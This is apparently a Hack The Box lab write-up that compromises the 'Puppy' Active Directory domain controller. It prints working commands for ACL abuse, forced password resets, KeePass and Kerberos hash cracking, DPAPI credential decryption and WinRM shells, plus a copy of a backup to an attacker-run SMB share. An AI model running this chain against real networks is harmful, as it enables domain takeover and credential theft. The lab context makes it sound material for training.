


# Puppy — Hack The Box Writeup

| Property       | Value                                                                   |
|----------------|-------------------------------------------------------------------------|
| **Machine**    | Puppy                                                                   |
| **OS**         | Windows Server 2022 (Domain Controller)                                 |
| **IP**         | 10.129.232.75                                                           |
| **Domain**     | PUPPY.HTB                                                               |
| **Difficulty** | Medium                                                                  |
| **Author**     | PeterTheFlower/Pitiliti1                                                               |
| **Tags**       | Active Directory, BloodHound, ACL Abuse, KeePass, Kerberoasting, DPAPI, GenericWrite, GenericAll |

---

## Summary

Puppy is a Medium Windows Domain Controller machine that showcases a realistic Active Directory attack chain. Starting with provided low-privilege domain credentials, we leverage misconfigured ACLs (GenericWrite → GenericAll) to traverse through multiple user accounts. Access to an SMB share yields an encrypted KeePass database whose weak master password is cracked, revealing additional domain credentials. After obtaining WinRM access, we discover a backup archive containing cleartext LDAP bind credentials, which lead to a user with DPAPI-protected credential files. Decrypting these files reveals a domain admin account, granting full control over the domain.

---

## 1. Reconnaissance

### 1.1 Port Scan

```bash
nmap -p- -Pn -v -sC -sV -T4 -oN nmap.txt 10.129.232.75
```

| Port      | State | Service      | Version / Notes                                     |
|-----------|-------|--------------|-----------------------------------------------------|
| 53/tcp    | open  | DNS          | Simple DNS Plus                                     |
| 88/tcp    | open  | Kerberos     | Microsoft Windows Kerberos                          |
| 111/tcp   | open  | RPCBind      | 2-4 (NFS/mountd/nlockmgr present)                   |
| 135/tcp   | open  | MSRPC        | Microsoft Windows RPC                               |
| 139/tcp   | open  | NetBIOS      | Microsoft Windows netbios-ssn                       |
| 389/tcp   | open  | LDAP         | AD LDAP — Domain: **PUPPY.HTB**                     |
| 445/tcp   | open  | SMB          | Signing **enabled and required**                    |
| 636/tcp   | open  | LDAPS        | tcpwrapped                                          |
| 2049/tcp  | open  | NFS          | nlockmgr 1-4                                        |
| 3260/tcp  | open  | iSCSI        | —                                                   |
| 5985/tcp  | open  | WinRM        | Microsoft HTTPAPI 2.0                               |
| 9389/tcp  | open  | ADWS         | .NET Message Framing                                |

> **Theory — Reading a Domain Controller Nmap Scan:**
> The combination of DNS (53), Kerberos (88), LDAP (389/636), and Global Catalog (3268/3269) is the hallmark of an Active Directory Domain Controller. SMB signing is **required** (not just enabled), which means NTLM relay attacks are off the table — we'll need to focus on credential-based attacks and ACL abuse. The presence of NFS (2049) and iSCSI (3260) on a DC is unusual and worth investigating, though in this case they aren't part of the attack path.

### 1.2 Initial Credentials

We start with provided credentials for a low-privilege domain user:

```
levi.james : KingofAkron2025!
```

---

## 2. Domain Enumeration — BloodHound

### 2.1 Data Collection

BloodHound is the standard tool for mapping Active Directory relationships — it collects information about users, groups, sessions, ACLs, and trusts, then visualizes attack paths.

```bash
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -ns 10.129.232.75 -d PUPPY.HTB -c all
```

> **Theory — What BloodHound Collects:**
> The `-c all` flag collects everything: group memberships, user properties, ACLs (DACLs on AD objects), sessions (who is logged in where), trusts, containers, GPOs, and OU structures. This data is exported as JSON files, which are imported into the BloodHound GUI for graph-based analysis. The key question BloodHound answers is: *"From my current position, what's the shortest path to Domain Admin?"*

### 2.2 Attack Path Analysis

After uploading the JSON files and marking `levi.james` as owned, BloodHound reveals the following attack path:



**Key findings:**
- No AS-REP Roastable or Kerberoastable users exist by default.
- `levi.james` has **GenericWrite** over the **DEVELOPERS** group.

> **Theory — GenericWrite on a Group:**
> The `GenericWrite` ACE (Access Control Entry) grants the ability to modify writable attributes of an AD object. When applied to a **group object**, the most impactful attribute is `member` — meaning we can **add any user to that group**, including ourselves. This is a classic AD privilege escalation technique because group memberships often control access to resources (shares, services, other groups).

---

## 3. Initial Access — ACL Abuse to SMB Share Access

### 3.1 Adding Ourselves to the Developers Group

Using `bloodyAD`, we exploit the GenericWrite ACE to add `levi.james` to the DEVELOPERS group:

```bash
bloodyad -u 'levi.james' -p 'KingofAkron2025!' -d 'PUPPY.HTB' --host '10.129.232.75' add groupMember 'CN=DEVELOPERS,DC=PUPPY,DC=HTB' 'CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB'
```

> **Why bloodyAD over net rpc group or PowerShell?**
> `bloodyAD` is purpose-built for AD manipulation from Linux — it speaks LDAP directly and handles Distinguished Names natively. Tools like `net rpc group addmem` work via SAMR protocol which sometimes has restrictions, and PowerShell (`Add-ADGroupMember`) requires a domain-joined Windows machine.

### 3.2 Accessing the DEV Share

After group membership propagation, we now have READ access to the **DEV** share:

```bash
nxc smb 10.129.232.75 -u 'levi.james' -p 'KingofAkron2025!' --shares
# DEV  READ  DEV-SHARE for PUPPY-DEVS
```

```bash
smbclient //10.129.232.75/DEV -U levi.james
smb: \> ls
  KeePassXC-2.7.9-Win64.msi     34394112  Sun Mar 23 07:09:12 2025
  Projects                             0  Sat Mar  8 16:53:36 2025
  recovery.kdbx                     2677  Wed Mar 12 02:25:46 2025
```

Two critical files:
- `recovery.kdbx` — an encrypted KeePass password database
- `KeePassXC-2.7.9-Win64.msi` — the KeePass installer (confirms the organization uses KeePass)

### 3.3 Cracking the KeePass Database

> **Theory — KeePass Database Encryption:**
> KeePass databases (`.kdbx`) are encrypted with AES-256 (or ChaCha20 in newer versions), derived from a master password via a key derivation function (Argon2d or AES-KDF). The `kdbx` format includes the KDF parameters and a verification hash — this is what `keepass2john` extracts, allowing offline brute-force with hashcat/john.

```bash
keepass2john recovery.kdbx > keepass.hashes
hashcat -m 13400 keepass.hashes /usr/share/wordlists/rockyou.txt
```

**Cracked master password:** `liverpool`

### 3.4 Extracting Credentials from KeePass

```bash
keepassxc-cli open recovery.kdbx
# Password: liverpool
```

| Entry              | Password       |
|--------------------|----------------|
| JAMIE WILLIAMSON   | JamieLove2025! |
| ADAM SILVER         | HJKL2025!      |
| ANTONY C. EDWARDS  | Antman2025!    |
| STEVE TUCKER       | Steve2025!     |
| SAMUEL BLAKE       | ILY2025!       |

### 3.5 Validating Credentials Against AD

Not all KeePass entries correspond to valid AD credentials — passwords may have been rotated since the database was last updated:

```bash
nxc smb 10.129.232.75 -u 'ant.edwards' -p 'Antman2025!'
# [+] PUPPY.HTB\ant.edwards:Antman2025!
```

**Only `ant.edwards`'s password is still valid for AD authentication.**

> **Lesson — Always validate recovered credentials:**
> Password databases, config files, and notes often contain stale credentials. Testing each one against the actual service (SMB, LDAP, WinRM) prevents wasting time on dead ends and identifies which accounts are still usable.

---

## 4. Lateral Movement — GenericAll Abuse + Targeted Kerberoasting

### 4.1 BloodHound — Next Hop

BloodHound shows that `ant.edwards` is a member of the **SENIOR DEVS** group, which has **GenericAll** over `adam.silver`, who is a member of **Remote Management Users**.



> **Theory — GenericAll vs GenericWrite:**
> `GenericAll` is the most powerful ACE — it grants **full control** over the target object, including the ability to:
> - Reset the user's password
> - Write to any attribute (including `servicePrincipalName` for Kerberoasting)
> - Add/remove group memberships
> - Enable/disable the account
> - Write `msDS-KeyCredentialLink` (Shadow Credentials attack)
>
> `GenericWrite` is a subset — it allows writing to attributes but not resetting passwords directly. With GenericAll, we have maximum flexibility.

### 4.2 Targeted Kerberoasting Attempt

Before taking the destructive approach (password reset), we attempt **targeted Kerberoasting** — a stealthier technique:

> **Theory — Targeted Kerberoasting:**
> Kerberoasting exploits the fact that any domain user can request a Kerberos TGS (Ticket Granting Service) for any service registered via a `servicePrincipalName` (SPN). The TGS is encrypted with the target account's password hash, so it can be cracked offline. In *targeted* Kerberoasting, we first **add an SPN** to a user (using our GenericAll/GenericWrite privileges), request the TGS, and then remove the SPN — leaving minimal traces.

```bash
# Step 1: Add a fake SPN to adam.silver
bloodyad --host 10.129.232.75 -d PUPPY.HTB -u ant.edwards -p 'Antman2025!' set object "CN=ADAM D. SILVER,CN=Users,DC=PUPPY,DC=HTB" servicePrincipalName -v "HTTP/fakepn.PUPPY.HTB"

# Step 2: Enable the account (it was disabled)
bloodyad --host 10.129.232.75 -d PUPPY.HTB -u ant.edwards -p 'Antman2025!' set object "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB" userAccountControl -v "544"

# Step 3: Request the TGS
GetUserSPNs.py -dc-ip 10.129.232.75 PUPPY.HTB/levi.james -request-user adam.silver -outputfile adam_silver_tgs

# Step 4: Crack
hashcat -m 13100 adam_silver_tgs /usr/share/wordlists/rockyou.txt
```

> **Why we had to enable the account:**
> Disabled accounts cannot have Kerberos tickets issued for them. The `userAccountControl` value `544` means `NORMAL_ACCOUNT` (512) + `PASSWORD_NOT_REQUIRED` (32) — this enables the account. We discovered the account was disabled while debugging why the Kerberoasting request failed.

**Result:** The hash was **not crackable** with `rockyou.txt` — the password is too strong.

### 4.3 Fallback — Forced Password Reset

Since Kerberoasting failed, we use the GenericAll privilege to directly reset adam.silver's password:

```bash
bloodyad --host 10.129.232.75 -d PUPPY.HTB -u ant.edwards -p 'Antman2025!' set password 'adam.silver' 'Password123!'

bloodyad --host 10.129.232.75 -d PUPPY.HTB -u ant.edwards -p 'Antman2025!' remove uac -f ACCOUNTDISABLE 'adam.silver'
```

> **Theory — Why Password Reset is "Destructive":**
> Resetting a password is effective but noisy — the original user will notice they can no longer log in, and it generates Event ID 4724 (password reset) in the Security Event Log. In a real engagement, the preferred approach would be **Shadow Credentials** (`msDS-KeyCredentialLink` manipulation), which doesn't change the password. However, Shadow Credentials require AD CS or the `KEY_TRUST` feature to be enabled, which wasn't available here.

### 4.4 WinRM Access — User Flag

```bash
evil-winrm -i 10.129.232.75 -u adam.silver -p 'Password123!'
```

**🚩 User flag obtained.**

---

## 5. Privilege Escalation — Backup Files to LDAP Bind Credentials

### 5.1 Discovery — C:\Backups

Enumerating the filesystem reveals a `C:\Backups` directory containing a site backup archive. We exfiltrate it via SMB:

```bash
# Attacker (Kali)
sudo impacket-smbserver share /tmp/smbshare -smb2support -username test -password test

# Target (Windows)
net use Z: \\10.10.15.197\share /user:test test
copy "site-backup-2024-12-30.zip" Z:\site-backup-2024-12-30.zip
```

### 5.2 Cleartext LDAP Bind Credentials

Inside the archive, the file `nms-auth-config.xml.bak` contains a hardcoded LDAP bind configuration:

```xml
<host>DC.PUPPY.HTB</host>
<port>389</port>
<base-dn>dc=PUPPY,dc=HTB</base-dn>
<bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
<bind-password>ChefSteph2025!</bind-password>
```

> **Theory — LDAP Bind Credentials in Config Files:**
> Many enterprise applications (monitoring tools, NMS, inventory systems) need to query Active Directory via LDAP. They require a **bind account** — a service account whose credentials are stored in the application's configuration file. When these files end up in backups, source code, or shares without proper access controls, they expose valid domain credentials. This is especially dangerous because service accounts often have elevated privileges.

```bash
evil-winrm -i 10.129.232.75 -u 'steph.cooper' -p 'ChefSteph2025!'
```

---

## 6. Privilege Escalation — DPAPI Credential Theft

### 6.1 WinPEAS — DPAPI Master Key and Credential Files

Running WinPEAS as `steph.cooper` reveals DPAPI-protected credential files:

```
MasterKey: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\
           S-1-5-21-...-1107\556a2412-1275-4ccf-b721-e6a0b4f90407

CredFile: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\
          C8D69EBE9A43E9DEBF6B5FBD48B521B9
  Description: Enterprise Credential Data
  MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
```

> **Theory — What is DPAPI?**
> The Data Protection API (DPAPI) is Windows' built-in mechanism for encrypting sensitive data — saved passwords (browser, Windows Credential Manager, RDP), certificates, Wi-Fi keys, etc. Each user has one or more **Master Keys** stored in their profile, encrypted with a key derived from their password. The encrypted data is stored in **Credential Files** under `AppData\Roaming\Microsoft\Credentials\`.
>
> **Why this matters for attackers:**
> If you know the user's plaintext password (which we do — `ChefSteph2025!`) and their SID, you can decrypt the Master Key, then use it to decrypt any DPAPI-protected credential files. This often reveals **additional credentials** the user has saved — including privileged accounts.

### 6.2 Decrypting the DPAPI Master Key

We transfer the Master Key file and Credential files to our attacker machine and decrypt:

```bash
# Step 1: Decrypt the Master Key using the user's password + SID
impacket-dpapi masterkey -file dpapi_master_key -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'

# Result:
# Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c141...
```

### 6.3 Decrypting the Credential File

```bash
impacket-dpapi credential -file dpapi_cred_file1 -key '0xd9a570722fbaf7149f9f9d691b0e137b7413c141...'
```

**Result:**

```
Username : steph.cooper_adm
Unknown  : FivethChipOnItsWay2025!
```

> **Why do organizations use `_adm` accounts?**
> The convention of having separate `user` and `user_adm` accounts is called the **tiered administration model** — regular accounts for daily work, `_adm` accounts for administrative tasks. This limits the blast radius if the regular account is compromised. However, if the user stores the admin credentials in Windows Credential Manager on their regular workstation, DPAPI provides a path from one to the other — defeating the purpose.

### 6.4 Domain Admin Access — Root Flag

```bash
evil-winrm -i 10.129.232.75 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
2b97d5ef183aebe8a350b574c7e0e37d
```

**🚩 Root flag obtained.**

---

## 7. Attack Path Summary

```
  levi.james (provided creds)
       │
       │ GenericWrite on DEVELOPERS group
       ▼
  Add self to DEVELOPERS → READ access to DEV share
       │
       │ Download recovery.kdbx
       ▼
  Crack KeePass master password ("liverpool")
       │
       │ Extract ant.edwards:Antman2025!
       ▼
  ant.edwards (SENIOR DEVS)
       │
       │ GenericAll over adam.silver
       │ Targeted Kerberoasting failed → Password Reset
       ▼
  adam.silver (Remote Management Users)
       │
       │ Evil-WinRM → 🚩 user.txt
       │ C:\Backups → nms-auth-config.xml.bak
       ▼
  steph.cooper (ChefSteph2025!)
       │
       │ DPAPI Master Key decryption
       │ Credential file → steph.cooper_adm
       ▼
  steph.cooper_adm (Domain Admin)
       │
       │ Evil-WinRM → 🚩 root.txt
       ▼
  FULL DOMAIN COMPROMISE
```

---

## 8. Tools Used

| Tool             | Purpose                                        |
|------------------|-------------------------------------------------|
| Nmap             | Port scanning, service enumeration              |
| BloodHound       | AD attack path visualization                    |
| bloodhound-python| BloodHound data collection from Linux           |
| bloodyAD         | AD object manipulation (ACL abuse, password reset) |
| NetExec (nxc)    | SMB credential validation, share enumeration    |
| smbclient        | SMB share access, file download                 |
| keepass2john     | KeePass hash extraction for cracking            |
| keepassxc-cli    | KeePass database CLI access                     |
| Hashcat          | Password hash cracking (GPU-accelerated)        |
| GetUserSPNs.py   | Kerberoasting — TGS request                     |
| Evil-WinRM       | Remote shell via WinRM                          |
| WinPEAS          | Windows privilege escalation enumeration        |
| impacket-dpapi   | DPAPI Master Key + Credential File decryption   |
| impacket-smbserver| Rogue SMB share for file exfiltration           |

---

## 9. Lessons Learned

1. **ACL abuse is the backbone of modern AD attacks** — this box chained GenericWrite → GenericAll across multiple hops. In real environments, misconfigured ACLs are extremely common because administrators rarely audit them. BloodHound should be part of every AD assessment.

2. **Targeted Kerberoasting before destructive actions** — we first tried to Kerberoast adam.silver (non-destructive, stealthy) before falling back to a password reset (destructive, detectable). This reflects real engagement methodology: always prefer the technique that leaves fewer traces.

3. **Disabled accounts are not dead accounts** — adam.silver was disabled but retained group memberships and ACL relationships. Disabling an account without cleaning up its permissions is a common oversight.

4. **DPAPI is a goldmine for lateral movement** — whenever you have a user's plaintext password and shell access, check for DPAPI Master Keys and Credential files. The `impacket-dpapi` toolchain makes offline decryption trivial.

5. **Configuration backups are credential treasures** — the `nms-auth-config.xml.bak` file contained production LDAP bind credentials. Always look for backup archives, `.bak` files, and config exports — especially in shares and home directories.

---

## References

- [BloodHound — AD Attack Path Visualization](https://bloodhound.readthedocs.io/)
- [bloodyAD — AD Privilege Escalation Tool](https://github.com/CravateRouge/bloodyAD)
- [MITRE ATT&CK — Account Manipulation (T1098)](https://attack.mitre.org/techniques/T1098/)
- [MITRE ATT&CK — Steal or Forge Kerberos Tickets: Kerberoasting (T1558.003)](https://attack.mitre.org/techniques/T1558/003/)
- [MITRE ATT&CK — Credentials from Password Stores: DPAPI (T1555.003)](https://attack.mitre.org/techniques/T1555/003/)
- [HackTricks — DPAPI Extracting Passwords](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html)
- [HackTricks — ACL Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html)
- [Microsoft — Privileged Access Workstations](https://learn.microsoft.com/en-us/security/privileged-access-workstations/overview)
- [Microsoft — Tiered Administration Model](https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-access-model)
